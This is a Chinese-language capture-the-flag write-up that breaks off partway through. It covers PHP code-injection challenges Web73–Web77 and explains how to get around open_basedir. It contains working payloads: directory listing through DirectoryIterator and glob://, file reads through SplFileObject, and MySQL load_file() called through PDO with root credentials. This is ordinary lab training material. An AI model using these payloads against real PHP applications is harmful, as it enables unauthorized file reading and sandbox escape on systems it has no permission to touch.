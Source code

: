 ## Web73

这题没有Open_basedir限制，直接目录遍历加读文件即可这里的flag在/flagc.txt中

## 方法一

payload

```
c=$a=new DirectoryIterator("/");foreach($a as $f){echo($f->__toString().' ');} exit(0);
c=(new SplFileObject("/flagc.txt"))->fpassthru();
```

## Web74

与上一题一样

## Web75：PDO数据库读文件

需要用glob://伪协议绕过open_basedir,扫描到了目录尝试命令执行UAF部分函数被禁用，不会绕

```
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);
```

参考hint用到了php的PDO连接数据库使用mysql数据库的load_file()进行文件读取

```
c=echo "test\n";try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo $row[0]."\n";$dbh=null;}}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);
```

## Web76

与上一题一样

## Web77：FFI命令执行方法

第一步目录遍历与上一题一样

```
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);
在用mysql数据库读文件的时候出现了问题
payload:
c=echo "test\n";try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36x.txt")') as $row){echo $row[0]."\n";$dbh=null;}}catch (PDOException $e) {echo "[ERROR]: ".$e->getMessage();exit(0);}exit(0);

错误
[ERROR]: could not find driver
```

但是在遍历目录的时候找到了一个readflag根据

